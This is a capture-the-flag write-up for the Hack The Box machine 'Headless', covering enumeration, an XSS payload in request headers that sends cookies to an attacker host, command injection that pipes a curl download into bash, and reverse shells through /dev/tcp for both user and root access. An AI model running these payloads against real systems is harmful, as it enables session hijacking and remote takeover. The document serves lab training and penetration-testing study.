








# Headless machine from [Hack The Box](https://www.hackthebox.com)

Target ip: 10.10.11.8

## 1) Enumeration and reconnaissance
As always we start scanning the target with `nmap`
``` bash
nmap -p- -sS -n -Pn -vvv --min-rate 7000 -oG open_ports 10.10.11.8
```
There are **two open ports** are: 22 (SSH) and 5000.

We can obtain more information on the services running on those ports using some scanning scripts from nmap with the following command
``` bash
nmap -p22,5000 -sCV --min-rate 7000 -n -oN ports_details 10.10.11.8
```
`-sC:` to run default reconnaissance scripts \
`-sV:` to perform a version scan

We can see that TCP port 5000 is hosting a web server so from the browser we go to `http://10.10.11.8:5000/` and find out a button that redirects as to a "support page" containing a form.

<style>
.center-60 {
  display: block;
  margin-left: auto;
  margin-right: auto;
  width: 60%;
}
</style>






Before playing with the form in the support page it would be interesting to do some fuzzing hoping to find more endpoints.

``` bash
gobuster dir -u http://10.10.11.8:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x html,php,txt,py -q
```

# Gaining access to target machine

After playing a while with the form fields I wasn't able to obtain neither XSS nor SQL injections. So I decided to go back and look for any other endpoint gobuster may have found and the only other results was `/dashboard` with code 500, so since I can't access dashboard nor gain access with the fields from the form, I will try manipulating the request headers.

Following the first approach on [this blog](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e) we can try to steal cookies which may help us to bypass the security of `/dashboard`.

So the idea is to add the following to some fields on the header request (using Burpsuite's repetear here)
``` bash
<script>var i=new Image(); i.src="http://<MY-IP>/?cookie="+btoa(document.cookie);</script>
```
But before sending the requests we need to open a http server:\
`python3 -m http.server -m 80`

Once the requests go throw we receive, in the terminal running the python server, a cookie:
`aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=`\
It's base64 encoded so we decode it
``` bash
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
#is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
Turns out the cookie's name is `is_admin`, therefore it makes sense trying to use it to bypass `/dashboard` security.

To do so, instead of continue using Burpsuite I'm gonna use the browser directly. In my case I'm using Firefox but any web browser works the same. What we need to do before going to the desired endpoint is to manually add the obtained cookie to the request, for that we use the 'web developer tools' tab from the browser and add our cookie there.



It worked! We bypassed the 500 code! But we are not inside target machine yet.

Now the panel does not contain too much info, just a button and a drop down list to pick dates. Whenever we see this kind of drop-down lists that forces us to some predefined inputs it's a good idea to intercept the requests with a proxy and manually modifies those. \
So once again we use Burpsuite and intercept the request that happens when we press the 'Generate Report' button.



Modifying the date does not seem to be doing anything. BUT, the server is executing our commands, we achieved RCE!
How? This is an example payload:



I'm using `curl` to read the content of a file from my machine and piping it to bash so the server executes it. The content of that `pwned.sh` is nothing else than a reverse shell
``` bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/<MY-IP>/434 0>&1"
```
Before sending the request from Burpsuite's repeater we must start listening on the choosen port (434) and open a server to share the file
``` bash
nc -nlvp 434
python -m http.server 443
```

After sending the request we receive a connection in the terminal running netcat.

## Retrieving user flag
We are already logged in as the user `dvir` so retrieving the user flag is easy
`cat /home/dvir/user.txt`

## Scalating privileges
Now the challenge is to obtain root access in order to retrieve the root flag.

As always my first approach is to run `sudo -l` to see if we have any special access.
It happens that the user `dvir` is able to run the script `/usr/bin/syscheck` with sudo levels.






Inspecting that script we realize it's running another script called `initdb.sh` using a relative path. So we just go ahead and create our own file with the same name, the content is would be -once again, a reverse shell. And since we are going to run it as sudo, the root user is the one that would be stablishing that connection.
``` bash
# content of initdb.sh
#!/bin/bash
bash -c "bash -i >& /dev/tcp/<MY-IP>/434 0>&1"
```

From host machine we use netcat to listen on a port 
``` bash
nc -nlvp 434
```

``` bash
# we run the syscheck script as sudo
sudo /usr/bin/syscheck
```

On the terminal listening with netcat we received a connection! And the user is **root**.\
Now we get the remaining flag 

`cat /root/root.txt`


## Summary

We were able to compromise this machine because of the following vulnerabilities:

* Server on port 5000 ended up being vulnerable to XSS via request's headers.
* Cookie hijacking allowed us to bypass `/dashboard` security panel.
* Improper sanitization of payload request allowed an RCE.
* User dvir is able to run a vulnerable script as sudo.